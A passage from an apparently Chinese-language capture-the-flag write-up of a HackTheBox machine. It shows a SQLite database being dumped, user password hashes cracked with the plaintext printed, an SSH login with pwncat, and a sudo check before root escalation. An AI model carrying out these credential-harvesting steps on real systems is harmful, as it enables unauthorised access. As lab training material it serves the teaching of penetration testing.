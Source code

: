 发现一个数据库文件

```shell
(remote) app-production@code:/tmp$ file /home/app-production/app/instance/database.db
/home/app-production/app/instance/database.db: SQLite 3.x database, last written using SQLite version 3031001
```

将其下载下来读取

```shell
┌──(randark ㉿ kali)-[~]
└─$ sqlite3 database.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
code  user
sqlite> SELECT * FROM code;
1|1|print("Functionality test")|Test
sqlite> SELECT * FROM user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

尝试查询哈希

|               Hash               |     Plaintext      |
| :------------------------------: | :----------------: |
| 759b74ce43947f5f4c91aeddc3e5bad3 |    development     |
| 3de6f30c4a09c27fc71932bfc68474be | nafeelswordsmaster |

那么就可以得到 martin 用户的权限

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs martin@10.10.11.62
[20:39:28] Welcome to pwncat 🐈!
Password: ******************
[20:39:38] 10.10.11.62:22: registered new host w/ db
(local) pwncat$ back
(remote) martin@code:/home/martin$ whoami
martin
```

## 提权至 root

分析当前用户的 sudo 可执行文件

```shell
(remote) martin@code:/home/martin$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
